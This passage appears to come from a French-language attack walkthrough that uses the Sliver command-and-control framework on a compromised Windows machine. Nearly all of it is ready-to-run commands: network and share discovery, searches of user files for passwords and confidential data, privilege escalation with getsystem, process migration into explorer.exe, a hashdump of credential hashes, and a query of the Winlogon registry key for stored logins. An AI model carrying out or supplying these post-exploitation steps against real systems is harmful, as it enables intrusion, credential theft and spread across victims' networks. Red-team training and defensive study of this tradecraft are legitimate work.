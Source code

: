 ### Étape 2.2 : Découverte du Réseau
```bash
# Scanner le réseau local
sliver (session) > execute "arp -a"
sliver (session) > execute "ipconfig /all"

# Découverte des partages réseau
sliver (session) > execute "net view"
sliver (session) > execute "net share"
```

### Étape 2.3 : Recherche de Fichiers Sensibles
```bash
# Rechercher des fichiers intéressants
sliver (session) > execute "dir C:\Users\%USERNAME%\Documents\*.pdf /s"
sliver (session) > execute "dir C:\Users\%USERNAME%\Desktop\*.txt /s"

# Rechercher des mots-clés sensibles
sliver (session) > execute "findstr /s /i \"password\" C:\Users\%USERNAME%\Documents\*.*"
sliver (session) > execute "findstr /s /i \"confidential\" C:\Users\%USERNAME%\Documents\*.*"
```

---

## 🔓 Phase 3 : Élévation de Privilèges

### Étape 3.1 : Tentatives d'Élévation Automatique
```bash
# Utiliser les capacités Silver
sliver (session) > getsystem

# Si échec, énumérer les privilèges
sliver (session) > getprivs
sliver (session) > execute "whoami /priv"
```

### Étape 3.2 : Injection de Processus (si nécessaire)
```bash
# Lister les processus avec privilèges élevés
sliver (session) > ps

# Identifier un processus cible (ex: explorer.exe)
sliver (session) > migrate <PID_explorer>

# Vérifier l'élévation
sliver (session) > whoami
sliver (session) > getprivs
```

### Étape 3.3 : Dump des Credentials
```bash
# Tentative de dump des hashes
sliver (session) > hashdump

# Recherche de credentials dans la mémoire (si possible)
sliver (session) > execute "reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

---